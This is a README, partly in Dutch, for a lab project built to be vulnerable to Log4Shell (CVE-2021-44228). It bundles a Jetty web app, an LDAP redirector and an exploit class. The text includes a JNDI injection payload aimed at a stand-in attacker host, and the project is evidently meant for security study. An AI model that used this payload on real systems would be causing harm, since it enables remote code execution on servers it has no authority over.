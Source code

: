 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/ # Bevat Exploit.java/class
├── ldap/ # LDAP-SERVER (JNDI redirector)
├── webapp/ # Kwetbare webapp (Jetty + log4j)
│
└── libs/ # Dependencies (via setup.sh)
├── scripts/ @ Automatiseringsscripts
├── README.md
└── test_payload.txt # Payload voor formulierinvoer

```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
